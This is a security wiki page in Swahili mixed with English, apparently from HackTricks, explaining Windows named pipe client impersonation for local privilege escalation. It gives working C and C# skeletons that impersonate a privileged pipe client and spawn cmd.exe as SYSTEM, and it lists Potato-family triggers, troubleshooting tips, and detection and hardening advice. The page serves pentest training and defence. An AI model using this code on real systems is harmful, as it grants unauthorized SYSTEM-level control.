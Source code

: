 # Uigaji wa Mteja wa Named Pipe

{{#include ../../banners/hacktricks-training.md}}

Uigaji wa mteja wa Named Pipe ni mbinu ya msingi ya kupandisha hadhi za eneo (local privilege escalation) inayoruhusu thread ya server ya named-pipe kuchukua muktadha wa usalama wa mteja anayeungana nayo. Katika vitendo, mshambulizi anayeweza kuendesha msimbo akiwa na SeImpersonatePrivilege anaweza kulazimisha mteja mwenye ruhusa (mfano, service ya SYSTEM) kuungana na pipe inayodhibitiwa na mshambulizi, kuitisha ImpersonateNamedPipeClient, kutengeneza nakala ya token iliyopatikana kuwa token kuu, na kuanzisha mchakato kama mteja (mara nyingi NT AUTHORITY\SYSTEM).

Ukurasa huu unalenga mbinu kuu. Kwa minyororo ya eksploit kuanzia mwanzo hadi mwisho zinazolazimisha SYSTEM kuungana na pipe yako, angalia Potato family pages zilizotajwa hapa chini.

## TL;DR
- Create a named pipe: \\.\pipe\<random> na subiri muunganisho.
- Fanya sehemu yenye ruhusa iungane nayo (spooler/DCOM/EFSRPC/etc.).
- Soma angalau ujumbe mmoja kutoka kwenye pipe, kisha ita ImpersonateNamedPipeClient.
- Fungua token ya uigaji kutoka thread ya sasa, DuplicateTokenEx(TokenPrimary), na CreateProcessWithTokenW/CreateProcessAsUser ili kupata mchakato wa SYSTEM.

## Requirements and key APIs
- PrivilegesTypically needed by the calling process/thread:
- SeImpersonatePrivilege to successfully impersonate a connecting client and to use CreateProcessWithTokenW.
- Alternatively, after impersonating SYSTEM, you can use CreateProcessAsUser, which may require SeAssignPrimaryTokenPrivilege and SeIncreaseQuotaPrivilege (these are satisfied when you’re impersonating SYSTEM).
- Core APIs used:
- CreateNamedPipe / ConnectNamedPipe
- ReadFile/WriteFile (must read at least one message before impersonation)
- ImpersonateNamedPipeClient and RevertToSelf
- OpenThreadToken, DuplicateTokenEx(TokenPrimary)
- CreateProcessWithTokenW or CreateProcessAsUser
- Impersonation level: to perform useful actions locally, the client must allow SecurityImpersonation (default for many local RPC/named-pipe clients). Clients can lower this with SECURITY_SQOS_PRESENT | SECURITY_IDENTIFICATION when opening the pipe.

## Mtiririko mdogo wa Win32 (C)
```c
// Minimal skeleton (no error handling hardening for brevity)
#include <windows.h>
#include <stdio.h>

int main(void) {
LPCSTR pipe = "\\\\.\\pipe\\evil";
HANDLE hPipe = CreateNamedPipeA(
pipe,
PIPE_ACCESS_DUPLEX,
PIPE_TYPE_MESSAGE | PIPE_READMODE_MESSAGE | PIPE_WAIT,
1, 0, 0, 0, NULL);

if (hPipe == INVALID_HANDLE_VALUE) return 1;

// Wait for privileged client to connect (see Triggers section)
if (!ConnectNamedPipe(hPipe, NULL)) return 2;

// Read at least one message before impersonation
char buf[4]; DWORD rb = 0; ReadFile(hPipe, buf, sizeof(buf), &rb, NULL);

// Impersonate the last message sender
if (!ImpersonateNamedPipeClient(hPipe)) return 3; // ERROR_CANNOT_IMPERSONATE==1368

// Extract and duplicate the impersonation token into a primary token
HANDLE impTok = NULL, priTok = NULL;
if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &impTok)) return 4;
if (!DuplicateTokenEx(impTok, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &priTok)) return 5;

// Spawn as the client (often SYSTEM). CreateProcessWithTokenW requires SeImpersonatePrivilege.
STARTUPINFOW si = { .cb = sizeof(si) }; PROCESS_INFORMATION pi = {0};
if (!CreateProcessWithTokenW(priTok, LOGON_NETCREDENTIALS_ONLY,
L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL,
0, NULL, NULL, &si, &pi)) {
// Fallback: CreateProcessAsUser after you already impersonated SYSTEM
CreateProcessAsUserW(priTok, L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL,
NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
}

RevertToSelf(); // Restore original context
return 0;
}
```
Vidokezo:
- Ikiwa ImpersonateNamedPipeClient inarudisha ERROR_CANNOT_IMPERSONATE (1368), hakikisha unasoma kutoka kwenye pipe kwanza na kwamba client hakuzuia impersonation hadi kiwango cha Identification.
- Pendelea DuplicateTokenEx kwa SecurityImpersonation na TokenPrimary ili kuunda token kuu inayofaa kwa uundaji wa mchakato.

## .NET mfano mfupi
Katika .NET, NamedPipeServerStream inaweza kujifanya kupitia RunAsClient. Mara inapojifanya, nakili token ya thread na unda mchakato.
```csharp
using System; using System.IO.Pipes; using System.Runtime.InteropServices; using System.Diagnostics;
class P {
[DllImport("advapi32", SetLastError=true)] static extern bool OpenThreadToken(IntPtr t, uint a, bool o, out IntPtr h);
[DllImport("advapi32", SetLastError=true)] static extern bool DuplicateTokenEx(IntPtr e, uint a, IntPtr sd, int il, int tt, out IntPtr p);
[DllImport("advapi32", SetLastError=true, CharSet=CharSet.Unicode)] static extern bool CreateProcessWithTokenW(IntPtr hTok, int f, string app, string cmd, int c, IntPtr env, string cwd, ref ProcessStartInfo si, out Process pi);
static void Main(){
using var s = new NamedPipeServerStream("evil", PipeDirection.InOut, 1);
s.WaitForConnection();
// Ensure client sent something so the token is available
s.RunAsClient(() => {
IntPtr t; if(!OpenThreadToken(Process.GetCurrentProcess().Handle, 0xF01FF, false, out t)) return; // TOKEN_ALL_ACCESS
IntPtr p; if(!DuplicateTokenEx(t, 0xF01FF, IntPtr.Zero, 2, 1, out p)) return; // SecurityImpersonation, TokenPrimary
var psi = new ProcessStartInfo("C\\Windows\\System32\\cmd.exe");
Process pi; CreateProcessWithTokenW(p, 2, null, null, 0, IntPtr.Zero, null, ref psi, out pi);
});
}
}
```
## Vichocheo/vikandamizo vya kawaida ili kupata SYSTEM kwenye pipe yako
Mbinu hizi zinawalazimisha huduma zilizo na vibali (privileged services) kuungana na named pipe yako ili uweze kujifanya wao:
- Print Spooler RPC kichocheo (PrintSpoofer)
- Variant za DCOM activation/NTLM reflection (RoguePotato/JuicyPotato[NG], GodPotato)
- EFSRPC pipes (EfsPotato/SharpEfsPotato)

Angalia utumiaji wa kina na ulinganifu hapa:

-
{{#ref}}
roguepotato-and-printspoofer.md
{{#endref}}
-
{{#ref}}
juicypotato.md
{{#endref}}

Ikiwa unahitaji mfano kamili wa kutengeneza pipe na kujifanya ili kuzalisha SYSTEM kutoka kwa kichocheo cha huduma, angalia:

-
{{#ref}}
from-high-integrity-to-system-with-name-pipes.md
{{#endref}}

## Utatuzi wa matatizo na vidokezo muhimu
- Lazima usome angalau ujumbe mmoja kutoka kwa pipe kabla ya kuita ImpersonateNamedPipeClient; vinginevyo utapokea ERROR_CANNOT_IMPERSONATE (1368).
- Ikiwa client inaungana kwa SECURITY_SQOS_PRESENT | SECURITY_IDENTIFICATION, server haiwezi kujifanya kikamilifu; angalia kiwango cha kujifanya cha token kupitia GetTokenInformation(TokenImpersonationLevel).
- CreateProcessWithTokenW inahitaji SeImpersonatePrivilege kwa mtumaji. Ikiwa hiyo inashindwa na ERROR_PRIVILEGE_NOT_HELD (1314), tumia CreateProcessAsUser baada ya tayari kujifanya SYSTEM.
- Hakikisha security descriptor ya pipe yako inamruhusu huduma inayolengwa kuungana ikiwa umeifanya kuwa ngumu; kwa default, pipes chini ya \\.\pipe zinapatikana kwa mujibu wa DACL ya server.

## Ugunduzi na kuimarisha
- Fuatilia uundaji na muunganisho wa named pipe. Sysmon Event IDs 17 (Pipe Created) na 18 (Pipe Connected) ni muhimu kuanzisha mstari wa msingi wa majina halali ya pipe na kugundua pipes zisizo za kawaida zinazoonekana kuwa za nasibu kabla ya matukio ya utendakazi wa token.
- Tafuta mfululizo: mchakato unaunda pipe, huduma ya SYSTEM inaunda muunganisho, kisha mchakato uliounda unazalisha mchakato mtoto kama SYSTEM.
- Punguza mfao kwa kuondoa SeImpersonatePrivilege kutoka kwa akaunti za huduma zisizo za lazima na kuepuka kuingia kwa huduma zisizo za lazima zenye vibali vya juu.
- Maendeleo ya kujilinda: wakati wa kuungana na named pipes zisizo za kuaminika, taja SECURITY_SQOS_PRESENT pamoja na SECURITY_IDENTIFICATION ili kuzuia servers kujifanya kikamilifu client isipokuwa inapohitajika.

## Marejeo
- Windows: ImpersonateNamedPipeClient documentation (mahitaji ya kujifanya na tabia). https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-impersonatenamedpipeclient
- ired.team: Windows named pipes privilege escalation (mwongozo na mifano ya code). https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation

{{#include ../../banners/hacktricks-training.md}}

